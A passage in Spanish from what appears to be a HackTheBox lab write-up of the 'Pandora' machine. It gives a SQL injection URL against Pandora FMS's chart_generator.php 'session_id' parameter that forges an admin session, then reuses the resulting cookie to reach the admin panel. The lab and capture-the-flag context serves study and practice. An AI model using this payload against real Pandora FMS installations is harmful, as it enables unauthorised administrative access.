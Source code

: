 ![SQLI Cookie](/assets/images/hackthebox/machines/pandora/sqli_cookie.png)

Ejecutando esta consulta sobre el servidor web (en este caso sobre nuestro localhost, gracias al port forwarding), podemos obtener la cookie:

![Get Cookie](/assets/images/hackthebox/machines/pandora/get_cookie.png)

http://localhost/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO

Teniendo la cookie del admin, podemos inyectarla en una petición usando el parámetro **`session_id`**:
http://localhost/pandora_console/include/chart_generator.php?session_id=nvccpkpgo3sq1i9g333v3vp6it

Si recargamos la página, deberíamos haber logrado acceso como administrador al panel:

![Admin](/assets/images/hackthebox/machines/pandora/admin.png)
